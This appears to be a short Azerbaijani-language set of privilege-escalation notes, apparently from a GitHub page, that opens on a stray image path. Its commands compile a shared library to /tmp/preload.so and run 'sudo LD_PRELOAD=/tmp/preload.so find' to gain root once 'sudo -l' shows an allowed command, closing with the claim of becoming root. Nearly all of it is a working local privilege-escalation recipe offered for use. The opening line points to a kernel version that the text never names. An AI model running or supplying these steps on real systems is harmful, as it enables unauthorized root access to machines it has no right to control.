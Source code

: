 ## eger kernelin bu versiyasidirsa 
## daha sonra biz (sudo -l) emrini icra edirik
## misal ucun find emrini root kimi icazemiz varsa 
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
## ardiyca asaqdaki kommandi veririk    
    sudo LD_PRELOAD=/tmp/preload.so find
## artiq biz Root olduq
